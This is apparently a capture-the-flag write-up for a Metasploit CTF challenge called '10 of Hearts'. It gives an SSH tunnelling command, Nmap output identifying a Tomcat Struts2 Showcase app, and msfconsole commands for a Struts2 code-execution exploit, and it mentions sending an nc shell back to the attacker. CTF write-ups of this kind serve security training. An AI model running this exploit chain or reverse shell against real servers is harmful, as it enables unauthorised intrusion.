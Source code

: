 # 10 of Hearts - port 8080

No nice images unfortunately, but I was using this command so that I could view the webpage in my own browser:

`ssh ec2-user@52.91.216.20 -i metasploit_ctf_kali_ssh_key.pem -L 8080:172.16.4.85:8080`

There are many varations on that with other tools like `sshuttle`.

Nmap showed some information on the application.

```
Apache Tomcat/7.0.84
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
| http-title: Struts2 Showcase
|_Requested resource was showcase.action
```

Searching exploits in the Kali msfconsole we find an exploit to use. I remember having problems getting the default payload to work, but switching to the generic one allowed me arbitrary code execution. I sent a `nc` shell to myself using this.

```
use exploit/multi/http/struts2_code_exec_showcase
set targeturi /integration/saveGangster.action
set payload cmd/unix/generic
set cmd ls /usr/bin
/usr/local/tomcat/tmp/10_of_hearts
```

Once we had a shell on the box the flag could be found in the web directory `/usr/local/tomcat/tmp/10_of_hearts`.

![10 of hearts](10_of_hearts.png)